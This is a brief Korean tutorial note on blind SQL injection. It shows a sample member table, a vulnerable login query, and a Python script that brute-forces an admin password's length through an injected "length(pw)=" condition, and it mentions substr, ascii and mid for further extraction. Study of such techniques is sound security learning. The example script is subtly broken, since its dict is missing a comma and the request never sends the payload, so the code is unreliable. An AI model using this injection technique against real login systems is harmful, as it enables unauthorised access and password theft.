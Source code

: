 # blind sql injection

### blind sql injection 이란?

> 임의의 sql 구문을 만들어 데이터를 열람하는 공격이다.

즉 어떠한 데이터베이스에 공격을할때 임의의 query 를 만들어서 반환값을 이용해 한글자씩 따온다.

예 db 구조
```sql
database -> member
tables -> member
column -> (id,pw)
data -> ("admin","password"),("guest","guest")
```
```sql
SELECT * FROM member WHERE id='' and pw='';
```
위의 sql 쿼리로 login 을 체크할 시에
python 으로 blind sql injection 로 예를 든다면

```py
import requests

Url = "in url"

for length in range(1,100):
    data = {
        'uid':f"admin' and length(pw)={length}--'"
        'upw':'a'
    }

    r = requests.post(Url).text

    if r.find("Login succee!") > 0:
        print("admin user length pw : ",length)
        break
```

위의 python script 말고도 보고싶으면 밑의 링크에서 참고하면 좋다.

+ [blind sqli python script](https://github.com/kimminwyk/Study-notes/blob/master/MYSQL/MYSQL-SQL-injection/blind-sql-injection/blind-sql-injection-python-script.md)


다음과 같은 예로 data 라는 변수에 dict 형식으로 

blind sqli 에 사용되는 쿼리를 만들어서 

requests 모듈로 요청한 뒤에 find 함수로 로그인 성공 감지됐다면 length 를 출력하는식이다.

* * *

간단하게 length(pw)={length} 에서 {} 안에 for loop 로 브루트포싱하여

참값이 될때까지 반복하는것이다.

위의 블라인드 인젝션이 성공되는 경우에는

```sql
SELECT * FROM member WHERE id='admin' and length(pw)=[1~100]
```

다음 쿼리와 같이 참의 값이 만들어져서 Login 이 우회되는것을 감지한다.

* * *

### length

그리고 mysql 에서 length() 는 안에 들어가는 데이터나 값을 넣으면 해당 데이터의 길이를 반환한다.

### 마무리

blind sqli 에서 length 말고도 다양한 쿼리가 존재한다

substr , left , ascii , mid 등등 다양한 문자열 , 길이를 브루트포싱하기위해 사용되는 함수가 많다.

